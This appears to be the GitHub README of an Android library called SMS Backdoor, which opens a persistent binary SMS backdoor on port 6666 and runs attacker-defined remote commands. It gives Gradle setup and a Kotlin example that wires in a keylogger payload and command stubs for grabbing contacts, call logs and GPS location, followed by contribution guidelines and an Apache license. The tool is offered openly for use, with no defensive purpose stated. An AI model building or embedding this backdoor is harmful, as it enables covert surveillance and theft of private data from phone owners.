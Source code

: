 [![Release](https://jitpack.io/v/evilthreads669966/smsbackdoor.svg)](https://jitpack.io/#evilthreads669966/smsbackdoor)&nbsp;&nbsp;[![API](https://img.shields.io/badge/API-23%2B-brightgreen.svg?style=plastic)](https://android-arsenal.com/api?level=23)
# SMS Backdoor
### An Android library that opens a persistent binary SMS backdoor with the ability to define your own remote command handler.

### User Instructions
1. Add the maven repository to your project's build.gradle file
```gradle
allprojects {
    repositories {
        ...
        maven { url 'https://jitpack.io' }
    }
}
```
2. Add the dependency to your app's build.gradle file
```gradle
dependencies {
    implementation 'com.github.evilthreads669966:smsbackdoor:3.0'
}
```
3.  Open the binary sms backdoor inside your Activity and pass in your command code and define your remote commands handler. Make sure to request RECEIVE_SMS permission before opening it. You can optionally pass a payload to openDoor or not.
```kotlin
//666: is the command code. So you would start all of your remote commands for example: 666: COMMAND_GET_CONTACTS
SmsBackdoor.openDoor(this, "666:", payload = {
    Keylogger.subscribe { entry ->
        Log.d("KEYLOGGER", entry.toString())
    }
}){ remoteCommand ->
    when(remoteCommand){
        "COMMAND_GET_CONTACTS" -> Log.d("SMS BACKDOOR", "WRITE CODE TO GET CONTACTS")
        "COMMAND_GET_CALL_LOG" -> Log.d("SMS BACKDOOR", "WRITE CODE TO GET CALL LOG")
        "COMMAND_GET_LOCATION" -> Log.d("SMS BACKDOOR", "WRITE CODE TO GET GPS LOCATION")
        else -> Log.d("SMS BACKDOOR", "COMMAND NOT FOUND")
    }
}
```
### Important To Know
- The sms backdoor is listening on port 6666 for binary sms messages.
- Your command handler will be executed off of the main thread.
- You can pass openDoor a notification title and a notification body for the persistent foreground notification of your backdoor
    - All background services require a persistent foreground notification since Android Oreo 8.0
- You can pass a function as an argument to openDoor for a payload aside from the sms backdoor to run in the background service
## Ask a Question?
- Use [Github issues](https://github.com/evilthreads669966/smsbackdoor/issues)
- Send an email to evilthreads669966@gmail.com

## Reporting issues
Found a bug on a specific feature? Open an issue on [Github issues](https://github.com/evilthreads669966/smsbackdoor/issues)

## Contributing

SMS Backdoor is released under the [Apache 2.0 license](https://github.com/evilthreads669966/SmsBackdoor/blob/master/LICENSE). If you would like to contribute
something, or simply want to hack then this document should help you get started.

### Code of Conduct
- Please refrain from using any profanity
- Please be respectful on [GitHub Issues](https://github.com/evilthreads669966/smsbackdoor/issues)
- Have fun

### [Pull Requests](https://github.com/evilthreads669966/smsbackdoor/pulls)
- Please create a branch prefixed with what you're working on.
    - FEATURE_ADDING_SOMETHING
    - BUG_FIXING_SOMETHING
    - REFACTOR_CHANGING_SOMETHING
- Once you're done with your commits to this branch hit a [pull request](https://github.com/evilthreads669966/smsbackdoor/pulls) off and I'll look at it and most likely accept it if it looks good.

### Using [GitHub Issues](https://github.com/evilthreads669966/smsbackdoor/issues)
We use [GitHub issues](https://github.com/evilthreads669966/smsbackdoor/issues) to track bugs and enhancements.
- If you find a bug please fill out an issue report. Provide as much information as possible.
- If you think of a great idea please fill out an issue as a proposal for your idea.

### Code Conventions
None of these is essential for a pull request, but they will all help.  They can also be
added after the original pull request but before a merge.

- We use idiomatic kotlin conventions
- Add yourself as an `@author` to the `.kt` files that you modify or create.
- Add some comments
- A few unit tests would help a lot as well -- someone has to do it.
- If you are able to provide a unit test then do.
    - Because of the types of libraries I develop often times it is hard to test.


### Working with the code
If you don't have an IDE preference we would recommend that you use
[Android Studio](https://developer.android.com/studio/)
## Contributors
This project exists thanks to all the people who contribute.
<a href="https://github.com/evilthreads669966/smsbackdoor/graphs/contributors"><img src="https://opencollective.com/smsbackdoor/contributors.svg?width=890&button=false" /></a>
## License
```
Copyright 2020 Chris Basinger

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

   http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
limitations under the License.
```
